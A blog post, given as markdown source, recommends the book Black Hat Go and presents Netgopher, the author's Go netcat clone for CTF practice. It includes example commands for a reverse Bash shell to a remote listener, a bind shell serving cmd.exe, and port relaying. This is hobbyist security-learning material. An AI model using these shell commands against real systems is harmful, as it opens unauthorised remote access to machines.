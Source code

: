 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting around to reading for an age. Long story short - I loved the first couple of chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your security, particularly form an offensive side, using Go will add a really nice new skillset to your toolbox. Go will let you build tools (simple or complex, up to you!) that compile to a single 'blob', run fast and  manage lot's of the hard programming (concurrency included) for you.  

I'd suggest that working witih Go like this is probably going to be a bit easier if you are comfortable working with Bash or maybe a little bit of Python (even just being able to read these will be enough), but don't let that hold you back if you're keen.  I've gone through the first chapter or two so far and in just a few evenings, the book has guided me through some really nice simple TCP tooling. My exposure to compiled languages stems from awkward Mathematical problems at Univeristy and learning Go was a little outfacing because I wanted to avoid that again, but Go is givine me serious Python vibes in the prevalence and usability of core Libraries, I think I might be a convert!

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same example Netcat mimic that every person starting on Black Hat Go or Black Hat Python (Another No Starch belter) puts on their Github! That said, I've tried to make my super simple implementation of Netcat (built using Go, following the first two chapters of the book, of course) a bit more useful for myself as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it up and added some better command line parsing and options goodness, whilst most of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection relay. A Pair of listeners are started, then a connecting relay is set up, by starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this script and have a go? If I can do this in a couple of evenings, you definately can! Read the source and play with NetGopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](/assets/images/posts/netgopher/basic.gif)
{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of listeners and connections.A listener is started, then a connection made from the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of Netgopher and have a messaround, or read the source? If you have any thoughts, I welcome issues, pulls, emails, tweets and more, just hit one of the socials below. I hope I've insipired you to check out some Go, or even program a little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, [Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap sales of No Starch Press books- that's where I got my copy (in eBook form) and it might be a good idea to keep your eyes peeled for similar sales in future. Peace!
